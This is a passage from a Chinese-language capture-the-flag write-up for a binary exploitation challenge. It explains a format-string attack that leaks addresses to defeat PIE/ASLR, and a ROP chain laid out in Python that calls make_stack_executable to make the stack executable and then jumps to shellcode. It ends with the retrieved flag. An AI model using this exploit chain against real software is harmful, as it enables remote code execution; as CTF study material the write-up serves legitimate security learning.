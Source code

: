 ```
   0x00007ffff7fbabfb <+75>:    pop    rbx
   0x00007ffff7fbabfc <+76>:    mov    eax,DWORD PTR fs:[rax]
   0x00007ffff7fbabff <+79>:    ret
```


它调用了 `mprotect(-_dl_pagesize & *param_1, _dl_pagesize, __stack_prot)`

+ 第一个参数是要改权限的内存页的起始地址
+ `_dl_pagesize` 是页的大小 4096
+ `__stack_prot` 是栈的属性，设为 7，即可读可写可执行

`__stack_prot` 不太容易设置，所以改成设置 `rsi`，直接跳转到 `make_stack_executable+17`，跳过读取这个变量的过程。

目标是栈处作如下修改：

+ 首先让 `rdi = stackEndPointer`，指向数组中的位置（但是 `returnAddress + 18` 附近的地址好像会报段错误，所以用了 `popRdiRbpRet` 的 gadget）
+ 然后 `rdx = 7`
+ 之后设置 `rsi = 4096`
+ 调用 `make_stack_executable+17`
+ 跳转到数组中的 shellcode

```python
addressTargetValue = {
    # rdi -> __libc_stack_end
    returnAddress: popRdiRbpRet,
    # stackEndPointer
    returnAddress + 8: stackEndPointer,
    # rdx = 7
    returnAddress + 16: 0,
    returnAddress + 24: popRdxRet,
    returnAddress + 32: 7,
    # rsi = _dl_pagesize = 4096
    returnAddress + 40: popRsiRet,
    returnAddress + 48: 4096,
    # call make_stack_executable+17
    returnAddress + 56: makeStackExecutable + 17,
    # returnAddress + 56: putcharAddress,
    returnAddress + 64: shellCodeAddress,
}
```

payload 包含了这个格式化字符串，shellcode，以及 `libcStackEnd` 的地址

##### PIE

对于 PIE，用 `%lx` 泄露栈变量地址，用 `%165$lx` 泄露返回地址（代码段函数地址），计算本次运行的变量地址

> 我是先在本地关闭 ASLR 用 pwndbg 调试，跑通后再改成开启 ASLR 的。

有概率成功进 shell，进入后 `cat flag_ec84a22b`，得到 `flag{pWn_0n_STACK_tO0_simPle}`


<details open>
<summary>代码</summary>
